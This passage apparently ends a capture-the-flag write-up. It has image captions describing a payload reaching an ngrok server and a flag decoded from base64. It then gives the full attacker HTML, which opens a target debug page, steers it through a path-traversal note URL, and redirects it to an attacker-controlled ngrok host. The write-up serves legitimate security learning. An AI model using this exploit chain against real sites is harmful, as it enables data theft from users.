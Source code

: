 ![](https://i.imgur.com/Q0wWxam.png)

> what the script will be extracting

**Time to test it on the actualy CTF page.**

![](https://i.imgur.com/9zqKmxw.png)

> Response on the ngrok server

![](https://i.imgur.com/YMkSxxj.png)

> base64 decoded

![](https://i.imgur.com/8m7P3zr.png)

> Flag finally found

Final attacker HTML used:

```javascript!
<!-- test.html -->
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>Attacker Page</title>
</head>
<body>
  <script>
    // Define a sleep function that returns a promise that resolves after a specified delay
    const sleep = (msec) => new Promise((resolve) => setTimeout(resolve, msec));

    const exploit = async () => {
      const note_id = "65b94781-ee96-465d-9ca4-757d234c23d0";
      const baseUrl = 'http://127.0.0.1';
	  const debug_path = "52abd8b5-3add-4866-92fc-75d2b1ec1938"
	  const attacker_url = "https://825f-2601-197-380-43a0-99e5-8a79-29c7-8ddf.ngrok-free.app"
	//  const attacker_url =  'http://127.0.0.1:1337'
	//  const debug_path = "sd"
      const debug_url = `${baseUrl}/debug/${debug_path}/${note_id}`;
      const local_inclusion = `${baseUrl}/note/${note_id}?id=../debug/${debug_path}/${note_id}`;
      const goBackUrl = `${attacker_url}/goback.html`;

      try {
        console.log('Opening debug_url:', debug_url);
        const newWindow = window.open(debug_url, '_blank');
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating to local_inclusion:', local_inclusion);
        newWindow.location.href = local_inclusion;
        await sleep(2000); // Delay for 2 seconds

        console.log('Navigating back to debug_url using go-back.html');
        newWindow.location.href = goBackUrl;
        await sleep(2000); // Delay for 2 seconds
      } catch (error) {
        console.error('Error in exploit:', error);
      }
    };

    exploit();
  </script>
</body>
</html>
```
